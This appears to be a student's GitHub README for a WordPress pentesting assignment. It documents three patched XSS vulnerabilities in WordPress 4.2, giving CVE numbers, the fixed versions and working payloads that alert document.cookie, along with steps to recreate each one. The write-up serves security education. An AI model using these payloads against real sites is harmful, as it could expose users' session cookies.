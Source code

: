 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (CVE 2015-5714)
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](xss1.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss1[caption width="100" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(document.cookie)'">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/media.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/shortcodes.php)
    
2. Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (CVE 2015-5622; 2015-5623)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](xss2.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss2```
    - ``` ```
    - ```<a href="[caption code=">]</a><a title=" onmouseover=alert(document.cookie)  ">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-embed.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/formatting.php)
    - [Link 3](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/kses.php)
    - [Link 4](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/shortcodes.php)
    
2. Authenticated Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (CVE 2016-1564)
    - Tested in version: 4.2
    - Fixed in version: 4.4.1
  - [ ] GIF Walkthrough: ![](xss3.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```http://wpdistillery.vm/wp-admin/customize.php?theme=<svg onload=alert(document.cookie)>```
    - Go to the post
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-theme.php)
    
## Assets

  - xss1.gif
  - xss2.gif
  - xss3.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright 2018 Yong Jun Cho

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
